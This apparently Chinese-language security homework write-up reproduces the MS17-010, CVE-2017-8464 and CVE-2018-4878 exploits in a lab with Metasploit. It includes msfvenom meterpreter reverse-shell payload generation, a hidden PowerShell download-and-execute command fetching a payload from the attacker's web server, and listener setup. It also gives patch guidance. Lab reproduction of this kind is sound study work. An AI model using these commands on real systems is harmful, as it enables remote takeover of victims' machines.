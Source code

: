 # 1104作业
## 作业1
### MS17-010 漏洞复现
- 靶机环境
  - 关闭防火墙
  - 目标必须使用SMBv1协议
  - 目标必须缺少MS17-010补丁
  - 使用`gpedit.msc`进入主策略 -> windows设置 -> 安全设置 -> 本地策略 -> 安全选项 -> 禁用（网络访问：限制对命名管道和共享的匿名访问）默认开启
  - 更改后重启

- 使用kali，执行msfconsole并搜索漏洞

![Alt text](image-8.png)

#### 漏洞利用模块[0]
- 进入利用模块
```
use 0
```
- 查看并配置必选项
```
options
set rhosts 192.168.0.106
```
- 执行`exploit`

![Alt text](image-9.png)
#### 漏洞利用模块[1]
- 进入利用模块
```
use 1
```
- 查看并配置必须项
```
options
set rhosts 192.168.0.106
```
- 执行`exploit`

![Alt text](image-10.png)


#### 漏洞利用模块[2]
- 进入利用模块
```
use 2
```
- 查看并配置必须项
```
options
set rhosts 192.168.0.106
set command ipconfig
```
- 执行`exploit`

![Alt text](image-12.png)

#### 漏洞利用模块[3]
- 进入利用模块
```
use 3
```
- 查看并配置必须项
```
options
set rhosts 192.168.0.106
```
- 执行`exploit`

![Alt text](image-13.png)

#### 总结：
- 攻击效果
  - 模块[0] [1] 可以拿到 meterpreter
  - 模块[2] 可以执行一条指定的命令
  - 模块[3] 可以收集到指纹信息

- 利用条件
  - 模块[0] [3]，仅需满足前三个条件，可以不禁用（网络访问：限制对命名管道和共享的匿名访）
  - 模块[1] [2], 除了前三个条件外，必须禁用（网络访问：限制对命名管道和共享的匿名访）
  
#### 漏洞修复
- 安装官方补丁：Windows 7 64位：kb4012212
- 实测：kb4474419也可以实现该漏洞的修复
![Alt text](image-14.png)
- 之后安装重启即可

## 作业2
### 1.CVE-2017-8464漏洞复现
- 在kali使用msfvenom生成一个反弹shell
```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.0.99 lport=4444 -f psh-reflection > ~/test.ps1
```
![Alt text](image.png)
![Alt text](image-1.png)

- 将生成的test.ps1文件复制到/var/www/html目录下

![Alt text](image-2.png)

- 在kali中启用apache服务
```
service apache2 start
```
![Alt text](image-3.png)

- 并查看该目录下的木马文件

![Alt text](image-4.png)

- 在靶机上创建一个快捷方式，输入输入下列信息
```
powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.99/test.ps1');testx.ps1"
```
![Alt text](image-5.png)

- 在kali开启一个监听
```
msfconsole

use exploit/multi/handler  //监听模块

set payload windows/x64/meterpreter/reverse_tcp
(该模块payload与生成木马文件的payload一致)
set LHOST 192.168.0.99
show options
```

- 开启监听（exploit）

- 点击靶机上的powershell

- 成功rce
  
![Alt text](image-7.png)

### 2.CVE-2018-4878 漏洞复现
- 攻击机：kali Linux

- 靶机：Windows 7 sp3

- 在kali中使用msfvenom生成漏洞利用代码
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.99 lport=4445  -f  python>flash_shellcode.txt
```
![Alt text](image-15.png)
![Alt text](image-16.png)

- 将脚本文件移至kali，修改漏洞脚本文件CVE-2018-4878.py
- 将生成的shellcode代码替换到脚本文件中
  
![Alt text](image-17.png)

- 更改python脚本中生成文件的路径

![Alt text](image-18.png)

- 使用python2解释器，执行脚本文件
```
python2 CVE-2018-4878.py
```
- 执行完python脚本后，在当前目录下生成了2个脚本文件
  
![Alt text](image-19.png)

- 开启Apache服务，并将生成的两个文件拷贝到apache服务目录下
```
service apache2 start
cp /root/* /var/www/html
```

- 在kali开启监听
```
msfconsole
use exploit/multi/handle
set payload windows/meterpreter/reverse_tcp

set lhost 192.168.0.99
set lport 4445
```

![Alt text](image-20.png)

- 在靶机安装flash

![Alt text](image-21.png)

- 访问在kali中生成好的index2.html页面
  
![Alt text](image-23.png)

- 成功获取meterpreter
  
![Alt text](image-22.png)